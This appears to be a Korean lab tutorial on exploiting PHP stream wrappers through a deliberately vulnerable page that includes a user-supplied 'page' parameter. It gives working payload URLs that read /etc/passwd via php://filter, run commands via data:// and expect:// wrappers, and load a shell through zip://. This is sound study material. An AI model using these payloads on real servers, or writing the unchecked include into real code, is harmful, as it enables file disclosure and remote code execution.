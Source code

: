 # PHP wrapper

| wrapper   | description   |
| :---      | :---:         |
| php://    | 다양항 I/O 스트림 래퍼 |
| zlib://   | 압축 스트림 래퍼 |
| expect:// | PTY를 통해 프로세스의 stdio, stdout, stderr에 대한 액세스 제공 |

https://www.php.net/manual/en/wrappers.expect.php
https://www.php.net/manual/en/wrappers.php

# **INDEX**

**1. [php://](#php)**

# **환경 구성**

실행 환경

| Type          | Version                   |
| :---          | :---                      |
| OS            | Ubuntu 20.04.3 LTS        |
| Architecture  | x86-64                    |
| IP            | 192.168.0.58              |
| php           | 7.4                       |
| apache2       | 2.4.41-4ubuntu3.10        |

apache와 php를 설치하자.

```sh
root@ubuntu:~# apt -y install apache2 php
```

php wrapper에 대한 공격에 취약한 페이지(index.php)를 만들자.

```php
<?php
    if (empty($_GET['page'])) echo 'PHP wrapper';
    else include $_GET['page'];
?>
```

# **php**

http://192.168.0.58/index.php?page=php://filter/convert.base64-encode/resource=/etc/passwd
http://192.168.0.58/index.php?page=php://filter/string.rot13/resource=/etc/passwd


```sh
root@ubuntu:~# vi /etc/php/7.4/apache2/php.ini
```
```ini
allow_url_include = On
```

http://192.168.0.58/index.php?page=data://text/plain,<?php system('id');?>
http://192.168.0.58/index.php?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCdpZCcpOyA/Pg==


```sh
root@ubuntu:~# apt -y install php-dev php-pear tcl tcl-tclreadline tcl-dev tcl-expect-dev expect expect-dev tk tk-dev
root@ubuntu:~# pecl install expect
```

```sh
root@ubuntu:~# vi /etc/php/7.4/apache2/php.ini
root@ubuntu:~# vi /etc/php/7.4/cli/php.ini
```
```ini
extension=expect.so
```

http://192.168.0.58/index.php?page=expect://id

```sh
root@ubuntu:~# apt -y install php-zip
```

apache2의 계정(www-data)이 압축을 풀 디렉토리의 권한을 가지고 있어야함

http://192.168.0.58/index.php?page=zip://shell.zip%23shell.php
